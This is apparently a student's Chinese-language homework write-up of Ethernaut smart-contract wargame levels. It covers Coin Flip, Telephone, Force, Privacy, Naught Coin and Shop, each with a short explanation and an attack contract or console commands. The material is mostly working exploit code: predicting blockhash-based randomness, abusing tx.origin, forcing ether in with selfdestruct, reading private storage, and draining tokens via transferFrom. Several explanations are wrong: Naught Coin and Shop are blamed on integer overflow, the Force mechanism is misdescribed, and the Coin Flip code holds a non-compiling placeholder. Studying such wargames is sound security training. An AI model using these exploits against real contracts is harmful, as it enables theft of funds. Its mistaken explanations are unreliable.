 # Week 6 Group HW
--
https://cyanwingsbird.blog/solidity/ethernaut/1-fallback/

https://xz.aliyun.com/t/7173

https://cloud.tencent.com/developer/article/2235227
--
Ethernautu遊戲學習重點:
安全問題
涉及合約的分析
攻擊流程的演示
–

3. Coin Flip
隨機數用 blockhash 容易被預測而變成攻擊目標，建議使用第三方服務，像是 chainLink 來取得隨機數。

// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract CoinFlipAttack {
    ICoinFlip constant private target = ICoinFlip(await contract獲取的實體地址);
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        target.flip(side);
    }
}
Number(await contract.consecutiveWins())


–

4. Telephone
在智能合約編程中，盡量不要使用 x.origin，因為它容易受到攻擊，即攻擊者可以偽造訊息，將其發送給一個合約，同時將 x.origin 偽造成另一個地址，從而騙取合約的某些權限。相反，msg.sender 更加安全，因為它不容易被攻擊者偽造。

pragma solidity ^0.8;

interface ITelephone {
    function owner() external view returns (address);
    function changeOwner(address) external;
}

contract Hack {
    constructor(address _target) {
        // tx.origin = msg.sender
        // msg.sender = address(this)
        ITelephone(_target).changeOwner(msg.sender);
    }
}
/*
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}


–

7. Force
selfdestruct 可以讓一個合約在自我銷毀之前將其餘的以太幣發送到一個指定的地址。攻擊者可以利用合約內的漏洞，使得目標合約在執行自毀函數時，將合約餘額轉移給攻擊者控制的地址，從而實現向目標合約強制轉賬。建議避免在合約內部存儲過多的以太幣，限制自毀函數的權限等。

pragma solidity ^0.8;

contract Hack {
    constructor(address payable _target) payable {
        selfdestruct(_target);
    }
}


–

12. privacy
以太坊在儲存時是以32 bytes為一格順序儲存的，所以定義變量的順序會影響花費Gas的多少

依32 bytes 一格，會以下劃分:

Slot 0

bool public locked = true;
Slot 1

uint256 public ID = block.timestamp;
Slot 2

uint8 private flattening = 10;
uint8 private denomination = 255;
uint16 private awkwardness = uint16(now);
Slot 3-5

bytes32[3] private data;
以下是在console的輸入過程

await web3.eth.getStorageAt(instance, 5)
'0x60d11579d2e9f3002771e25ea211665c2728080663f62254aff89d7ef1ccd863'

<!-- 取0x後面的32位 -->
contract.unlock("0x60d11579d2e9f3002771e25ea211665c")
–

15. Naught Coin
為了防止這種漏洞，合約應該使用 SafeMath 庫來避免整數溢出攻擊。此外，合約應該在對代幣數量進行操作之前，應該先檢查操作是否合法，例如檢查代幣數量是否超過了合約的最大值。開發者還可以使用 require 語句來確保合約在滿足特定條件時才能繼續執行。

pragma solidity ^0.8;

interface INaughtCoin {
    function player() external view returns (address);
}

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
}

// 1. Deploy
// 2. coin.approve(hack, amount)
// 3. pwn
contract Hack {
    function pwn(IERC20 coin) external {
        address player = INaughtCoin(address(coin)).player();
        uint256 bal = coin.balanceOf(player);
        coin.transferFrom(player, address(this), bal);
    }
}


–

Shop
該合約的漏洞在於，合約在購買商品時並未檢查商品的價格是否為0。合約應該在購買商品之前檢查商品的價格是否為正確的價格，也應該在購買商品時檢查付款是否等於商品價格。這些檢查可以通過實現合約中的相應函數來實現，例如在購買商品時實現一個 buyItem 函數，在其中進行價格檢查和付款檢查。此外，還可以使用 SafeMath庫來避免整數溢出攻擊，以及使用require語句來確保合約在滿足特定條件時才能繼續執行。

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}

